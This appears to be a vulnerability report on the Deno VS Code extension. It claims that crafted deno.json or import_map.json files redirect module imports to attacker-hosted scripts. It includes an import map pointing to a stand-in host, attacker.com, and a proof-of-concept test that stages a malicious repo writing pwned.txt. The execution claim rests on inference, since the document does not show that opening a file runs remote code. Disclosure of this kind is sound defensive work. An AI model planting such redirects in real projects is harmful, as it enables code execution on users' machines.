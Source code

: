 ### Vulnerability List

- Vulnerability Name: Malicious Module Redirection via `deno.json` and `import_map.json`
- Description:
    1. An attacker crafts a malicious project.
    2. The project includes a `deno.json` or `import_map.json` file.
    3. These configuration files are designed to redirect module imports. For example, `import_map.json` might contain:
       ```json
       {
         "imports": {
           "insecure_module/": "https://attacker.com/malicious_scripts/"
         }
       }
       ```
    4. A user opens this malicious project in Visual Studio Code with the "Deno for Visual Studio Code" extension enabled.
    5. The extension reads and applies the configurations from `deno.json` or `import_map.json`.
    6. When the extension or the Deno language server processes project dependencies (e.g., during type checking, linting, or caching), it uses the provided import map or configuration.
    7. Due to the malicious configurations, module imports are redirected to attacker-controlled scripts hosted at locations like `https://attacker.com/malicious_scripts/`.
    8. The Deno language server fetches and potentially executes these malicious scripts as part of its dependency resolution process.
    9. This results in arbitrary code execution within the user's workspace, under the context of VS Code and the Deno extension.
- Impact: Arbitrary code execution within the user's workspace. This can lead to:
    - Stealing sensitive information (credentials, tokens, source code).
    - Modifying or deleting project files.
    - Installing malware or backdoors.
    - Further compromising the user's system or network.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None identified in the provided project files that specifically mitigate malicious module redirection via configuration files. The extension relies on the Deno CLI and language server for core functionality, and it appears to inherit any vulnerabilities present in Deno's module resolution when processing `deno.json` and `import_map.json`.
- Missing Mitigations:
    - Input validation and sanitization for `deno.json` and `import_map.json` files. The extension should parse and analyze these files for potentially malicious redirects before applying them. This could include checks for:
        - Redirection to untrusted or known malicious domains.
        - Usage of insecure protocols (e.g., `http:` instead of `https:` for remote modules).
        - Attempts to redirect core Deno modules or standard library modules.
    - Security warnings to the user. When the extension detects potentially suspicious configurations in `deno.json` or `import_map.json` (e.g., redirects to untrusted domains), it should display a prominent warning to the user, prompting them to review and confirm the configurations before enabling Deno features for the workspace.
    - Sandboxing or isolation of module resolution and execution. The extension could implement sandboxing or isolation techniques to limit the privileges and access of resolved modules, reducing the impact of malicious code execution. However, this might be complex to implement within the VS Code extension context and might impact functionality.
    - Documentation and user awareness. Improve documentation to clearly warn users about the risks of opening projects from untrusted sources with the Deno extension enabled. Emphasize the importance of reviewing `deno.json` and `import_map.json` files in such projects for any unexpected or suspicious configurations.
- Preconditions:
    - User has the "Deno for Visual Studio Code" extension installed and enabled in VS Code.
    - User opens a project in VS Code that is controlled by an attacker and contains a malicious `deno.json` or `import_map.json` file.
    - The Deno extension becomes active for the opened workspace (either through global enablement or workspace-specific settings).
    - The extension or Deno language server attempts to resolve modules within the project, triggering the malicious redirects.
- Source Code Analysis:
    - `client/src/extension.ts`: The `initializationOptions` function within `client/src/extension.ts` is responsible for setting up the language client's initialization options. It retrieves the `deno` configuration from VS Code settings and passes it to the language server. This configuration includes settings like `deno.config` and `deno.importMap`, which are directly used by the Deno language server for module resolution.
    ```typescript
    initializationOptions: () => {
      const denoConfiguration = vscode.workspace.getConfiguration().get(
        EXTENSION_NS,
      ) as Record<string, unknown>;
      commands.transformDenoConfiguration(extensionContext, denoConfiguration);
      return {
        ...denoConfiguration,
        javascript: vscode.workspace.getConfiguration().get("javascript"),
        typescript: vscode.workspace.getConfiguration().get("typescript"),
        enableBuiltinCommands: true,
      } as object;
    },
    ```
    - `client/src/commands.ts`: The `startLanguageServer` function in `client/src/commands.ts` initializes and starts the Deno language server. This server is the component that processes `deno.json` and `import_map.json` configurations for module resolution. The extension itself does not appear to perform any validation or sanitization of these configuration files before passing them to the language server. The language server, therefore, operates under the assumption that these configurations are safe and trustworthy.
    - There is no code in the provided files that explicitly validates or sanitizes the contents of `deno.json` or `import_map.json` for security concerns like malicious redirects. The extension's design focuses on passing configuration settings to the Deno language server, trusting it to handle module resolution and dependency management securely. However, the described attack vector demonstrates a potential vulnerability in this trust model when dealing with untrusted projects.
- Security Test Case:
    1. Create a new directory named `malicious-deno-project`.
    2. Inside `malicious-deno-project`, create a file named `import_map.json` with the following content:
       ```json
       {
         "imports": {
           "malicious_module/": "https://raw.githubusercontent.com/username/malicious-repo/main/"
         }
       }
       ```
       *(Replace `username/malicious-repo` with a publicly accessible GitHub repository you control)*
    3. In the same directory, create a file named `main.ts` with the following code:
       ```typescript
       import { maliciousFunction } from "malicious_module/malicious_script.ts";
       maliciousFunction();
       ```
    4. Create a new public GitHub repository named `malicious-repo`.
    5. In the `malicious-repo` repository, create a file named `malicious_script.ts` with the following content:
       ```typescript
       // malicious_script.ts
       import * as fs from 'node:fs';

       export function maliciousFunction() {
         fs.writeFileSync('pwned.txt', 'Successfully exploited via import map!');
         console.log('Malicious script executed!');
       }
       ```
    6. Open Visual Studio Code and open the `malicious-deno-project` directory. Ensure the "Deno for Visual Studio Code" extension is enabled for this workspace.
    7. Open the `main.ts` file. This action should trigger the Deno language server to process the dependencies and the import map.
    8. Check the `malicious-deno-project` directory. If the vulnerability is present, a new file named `pwned.txt` should have been created, containing the text "Successfully exploited via import map!". You should also see "Malicious script executed!" in the console output (if the malicious script includes console logging).

This test case demonstrates how a malicious `import_map.json` can redirect module imports to an attacker-controlled script, leading to arbitrary code execution when the Deno extension processes the project.
